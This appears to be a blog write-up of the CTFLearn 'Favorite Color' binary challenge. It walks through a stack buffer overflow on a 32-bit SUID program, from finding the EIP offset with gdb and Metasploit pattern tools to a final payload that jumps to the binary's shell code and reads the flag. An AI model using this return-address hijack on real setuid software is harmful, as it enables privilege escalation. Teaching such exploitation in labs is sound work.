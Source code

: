 ```yaml
---
layout: post
permalink: /posts/ctflearn/binary-medium
title: "CTFLearn write-up: Binary (Medium)"
date: 2020-08-15 20:37
tags: ctflearn CTF binary
description: "Greeting there, welcome to another CTlearn write-up. Today, we are going for the medium level binary challenge."
---
```


Greeting again, welcome to another CTlearn write-up. Today, we are going for the medium level binary challenge. Let's get started.

## 1) Favorite Color

[Link: https://ctflearn.com/challenge/391](https://ctflearn.com/challenge/391)

### Step 1: Enumerate the binary and machine

First of all, login to the ssh either using putty (Windows) or via the command line (Mac or Linux). After login in, let's check what is inside it.

![nmap](/assets/images/ctflearn/2020-08-15-binary-medium/1.png)

We have a SUID bit binary with the source code, also the flag file we can't access for. How about reading the source code?

![c code](/assets/images/ctflearn/2020-08-15-binary-medium/2.png)

Alright, we can perform buffer overflow on the binary and gain access to the flag file. If you noticed the if condition line, we are able to access the shell. There one more thing we need to do before the attack. Check the ASLR or **Address Space Layout Randomization** status.

![ASLR](/assets/images/ctflearn/2020-08-15-binary-medium/3.png)

Shoot, we can't include our own shellcode inside the payload. That's is the reason why the code came with the own shell function. Nevermind, it makes things easier for us. In addition, this is a 32-bit binary.

![32 bit](/assets/images/ctflearn/2020-08-15-binary-medium/4.png)

### Step 2: Obtain EIP offset

The EIP offset is important as it enables us to hijack the return address. What so important with the return address? With the return address, we can jump whatever location inside the binary. Our objective is to jump into the line that executes the shell.

You need gdb for the exploit. Simply use the following command to enter gdb mode.

```
gdb color
```

![gdb](/assets/images/ctflearn/2020-08-15-binary-medium/5.png)

Let's drunk the binary with 100 number of A. You can use python -c "print('A'*100)" to generate the junk.

![junk](/assets/images/ctflearn/2020-08-15-binary-medium/6.png)

The program return segmentation fault which indicated the buffer overflow attack is a success. Also, the EIP of the instruction pointer is overwritten with the A's. As for the next step, we are going to use Metasploit's pattern_create ruby script to generate the pattern.

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
```

![pattern](/assets/images/ctflearn/2020-08-15-binary-medium/7.png)

We are creating a 100 letters pattern. After that, copy the pattern, re-run the program and paste it on the gdb just like the previous step.

![paste](/assets/images/ctflearn/2020-08-15-binary-medium/8.png)

Copy the value and calculate the eip offset using the following command.

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x62413762
```

![offset](/assets/images/ctflearn/2020-08-15-binary-medium/9.png)

This offset number tells us that input of 52 letters will overflow the buffer. Any letters number below this number will not overflow the buffer.

### Step 3: Drafting the payload.

The general payload for the buffer overflow will look like this.

```
52 junk letters + 4 bytes return address
```

Let's draft our first payload to validate our findings.

```
python -c "print('A'*52 + '\x42\x43\xfe\xff')" > /tmp/pay.in
```

The \x42\x43\xfe\xff or 0xFFFE4342 (little-endian) is a dummy return address.

![hijack](/assets/images/ctflearn/2020-08-15-binary-medium/10.png)

Bingo, we just hijacked the return address.

### Step 4: Finding the location for the return address

We need a suitable location to launch the shellcode. Disassembly the main in the gdb

```
disas main
```

![main](/assets/images/ctflearn/2020-08-15-binary-medium/11.png)

Address 0x08048657 could be the best location. This is because the address is after the vuln() function. Our final payload will look like this.

```
(python -c "print('A'*52 + '\x57\x86\x04\x08')";cat) | ./color
```

You must run this line outside the gdb.

![color flag](/assets/images/ctflearn/2020-08-15-binary-medium/12.png)

## Conclusion

That's all for the medium level binary write-up. More CTFlearn walkthrough coming soon.

